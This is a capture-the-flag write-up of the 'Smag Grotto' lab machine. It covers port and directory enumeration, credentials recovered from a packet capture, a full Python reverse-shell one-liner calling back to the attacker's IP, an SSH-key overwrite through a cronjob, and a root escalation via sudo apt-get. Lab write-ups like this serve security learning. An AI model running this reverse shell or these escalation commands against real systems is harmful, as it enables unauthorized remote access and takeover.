


# Smag Grotto

10 July 2021

---

## Index
- [Enumeration](#enumeration)
- [Reverse Shell](#reverse-shell)
- [Priviledge Escalation](#priviledge-escalation)

---

```bash
export IP=10.10.94.23
```

### Enumeration

```bash
$ nmap -sC -sV -v $IP -oN nmap/initial.nmap
```

Ports:
```
22 ssh
80 http
```

Now enumerating the website with:

```bash
$ gobuster dir -t 64 -u $IP -w ~/wordlists/website_dir/directory-list-2.3-medium.txt -x .txt,.php,.html -o gobuster/dir_med_ini.txt
```

We notice a strange directory `/mail/` which has a wireshark capture file that is downloadable for us to explore.
Analysing the packet we notice two major things.
* Firstly, a hostname `development.smag.thm`
* Secondly, user credentials with which to login with

`helpdesk:cH4nG3M3_n0w`

Adding the hostname to `/etc/hosts` and using those credentials to login with, and are greeted with a splash page with the ability to send commands.



Initially, I tried `whoami` and `ls` but no output was returned. I then opened tcpdump.

```bash
$ tcpdump -i utun1 icmp
```

And I could receive pings! But I couldn't access the commands anymore and it was stuck pinging me. So after restarting the machine I set about creating a reverse shell with which I could access the box.

### Reverse Shell

```bash
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.9.5.34",9999));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

I now had a shell to access the machine with and we can begin enumerating the machine to escalate priviledges. I kicked off with good old linpeas.
It quickly found a cronjob which would concatenate a backup of jake's public ssh key to his `.ssh/` folder. We can generate a new ssh key pair and overwrite the public one with ours and log in with our newly generated ssh key

```bash
$ ssh-keygen -f jake
```

### Priviledge Escalation

And now we wait for the cronjob to overwrite the file...
And one minute of waiting later, we can now login in as jake! And grab the user flag too.

Now we check for sudo permissions and notice that we can `sudo apt-get` without need of a password. 



Consulting gtfobins, we can run:

```bash
$ sudo apt-get update -o APT::Update::Pre-Invoke::=/bin/sh
```

To escalate priviledges! And nab the root flag!

And we are _**complete!**_

Enjoyable and straight-forward room.


